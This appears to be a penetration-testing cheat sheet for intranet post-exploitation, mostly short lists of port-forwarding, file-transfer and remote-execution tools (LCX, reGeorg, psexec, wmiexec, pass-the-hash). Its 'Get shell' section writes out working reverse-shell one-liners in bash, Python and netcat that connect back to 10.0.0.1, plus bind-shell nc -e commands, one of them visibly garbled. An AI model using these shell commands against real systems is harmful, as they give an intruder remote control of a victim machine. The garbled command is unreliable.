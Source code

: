Comprehensive skills
========================================

Port Forwarding
----------------------------------------
- windows
- LCX
- Netsh
- linux
- portmap
- iptables
- socket proxy
- Win: xsocks
- Linux: proxychains
- http-based forwarding and socket proxy (penetration under low privileges)
- Port Forwarding: tunna
- socks proxy: reGeorg
- ssh channel
- Port Forwarding
- socks

Get shell
----------------------------------------
- Regular shell rebound

::

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

- Imcp_shell rebound that breaks through the firewall
- Forward shell

::

nc -e /bin/n-pn-pn-pp 1234
nc.exe -e cmd.exe -lp 1234

Intranet file transfer
----------------------------------------
- File transfer under windows
- powershell
- vbs script file
- bitsadmin
- File Sharing
- Receive data using telnet
- hta
- File transfer under linux
- Python
- wget
- Tar + SSH
- Transfer data using dns
- File Compilation
- powershell converts exe to txt, and then converts txt to exe

Remote connection && Execute the program
----------------------------------------
- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC Creation Service Execution
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc
